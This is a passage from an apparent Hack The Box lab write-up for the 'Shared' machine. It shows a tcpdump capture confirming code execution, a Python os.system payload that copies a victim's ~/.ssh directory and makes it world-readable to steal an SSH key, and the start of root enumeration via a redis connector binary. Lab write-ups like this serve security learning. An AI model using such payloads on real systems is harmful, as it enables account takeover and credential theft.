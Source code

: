 After that, I just copied the directory to `/opt/scripts_review/` and waited for the pings in my tcpdump output:

```bash
┌──(kali㉿kali)-[~/Public/linux/tools]
└─$ sudo tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:54:52.355603 IP shared.htb > 10.10.14.29: ICMP echo request, id 40114, seq 1, length 64
16:54:52.355629 IP 10.10.14.29 > shared.htb: ICMP echo reply, id 40114, seq 1, length 64
```

Cool! We have code execution as `dan_smith`. I changed the code to be executed to something more interesting:

```python
import os

response = os.system("cp -r ~/.ssh ~/tricked; chmod -R 777 ~/tricked")
```

This code will copy the `.ssh` directory of the user `dan_smith` and change its permissions to allow me to read it. After that, I can just take the `dan_smith` SSH key and connect to the machine as him.

## Getting root

Again I found something interesting looking for files with the same groups as the user. In this case the group was `sysadmin` and the file was a binary:

```bash
dan_smith@shared:~$ /usr/local/bin/redis_connector_dev
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:10650
run_id:549c5725e037e36a1b621808b04554126747e2b1
tcp_port:6379
uptime_in_seconds:36
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:6566958
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```
